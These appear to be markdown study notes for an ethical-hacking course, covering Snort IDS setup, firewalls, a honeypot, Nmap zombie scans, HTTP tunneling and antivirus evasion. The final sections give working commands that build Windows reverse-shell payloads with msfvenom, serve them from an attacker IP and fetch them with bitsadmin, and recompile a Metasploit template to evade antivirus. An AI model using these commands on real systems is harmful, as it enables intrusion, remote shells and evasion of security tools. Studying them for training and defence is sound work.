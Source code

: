>  Snort (IDS)
- cmd -> snort
- List machine's physical address, IP and Ethernet Drivers:
	* `snort -W` 
- Configuration file:
	* snort.conf
- Start snort:
	* `snort -iX -A console -c C:\\Snort\\etc\\snort.conf -l C:\\Snort\\log -k ascii`
	* Replace X with your device index number


## <span style="color: #3498db; font-size: 0.8em;">    Detect Malicious Network Traffic</span>

>  ZoneAlarm Free Firewall (zafw): Windows
- You can block any domain, IP or whatever > Firewall > View zones > Firewall settings > Add zone

> HoneyBOT (Windows): Honeypot that creates a safe enviroment to capture and interact with unsolicited traffic on a network.


## <span style="color: #3498db; font-size: 0.8em;">    Bypass Windows Firewall</span>

>  Nmap evasion techniques
- Scan to discover the live machines in the network
	* `nmap -sP IP/range´
- Zombie scan (choosing any of the IPs that are obtained in the ping sweep scan)
	* `nmap -sI IP1 IP2`


## <span style="color: #3498db; font-size: 0.8em;">    Bypass Firewall Rules</span>

>  HTTP/FTP tunneling
- If IIS Admin Service is running, stop the program.
- Run htthost.exe
- Revalidate DNS names and log connections.
- Run httport3snrm.exe to perform tunneling using HTTPort

> BITSAdmin
- `msfvenom -p windows/shell_reverse_tcp lhost=IP lport=port -f exe > /exploit.exe`
- `service apache2 start`
- PS> `bitsadmin /transfer Exploit.exe http://IP/exploit.exe c:\\exploit.exe`


## <span style="color: #3498db; font-size: 0.8em;">    Bypass Antivirus</span>

>  Metasploit
- `pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c`
- change 4096 to 4000
- `cd /usr/share/metasploit-framework/data/templates/src/pe/exe`
- `i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe`
- `msfvenom -p windows/shell_reverse_tcp lhost=IP lport=port -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > /home/attacker/bypass.exe`
